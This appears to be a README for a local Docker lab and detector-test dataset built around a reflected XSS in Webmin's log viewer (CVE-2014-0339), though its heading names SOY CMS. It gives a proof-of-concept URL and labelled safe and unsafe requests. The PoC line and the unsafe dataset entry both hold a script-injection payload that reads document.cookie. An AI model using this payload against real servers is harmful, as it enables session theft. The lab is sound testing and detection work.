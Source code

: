 # SOY CMS

## Building information

```console
$ docker build -t webmin ./
$ docker run -d -it --rm --name webmin -p 8080:80 webmin
```

## Vulnerability Details

- CVE-2014-0339
- https://github.com/webmin/webmin/commit/3b6234b511f97d18f4941c618ac594e73d8f7bda

### PoC

`http://localhost:8080/webminlog/view.cgi?id=1&search=e"><script>alert(document.cookie);</script>`

## Datasets

### Safe

- <./datasets/safe-1.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700059.929.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D2%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26long%3D0`
- <./datasets/safe-2.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700630.1031.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D2%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26fall%3D1%26file%3D%26dall%3D1%26diff%3D%26long%3D0`
- <./datasets/safe-3.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700059.929.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D1%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26fall%3D1%26file%3D%26dall%3D1%26diff%3D%26long%3D0`

### Unsafe

- <./datasets/xss-1.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700630.1031.0&return=&returndesc=&search=e%22%3E%3Cscript%3Ealert(document.cookie);%3C/script%3E`
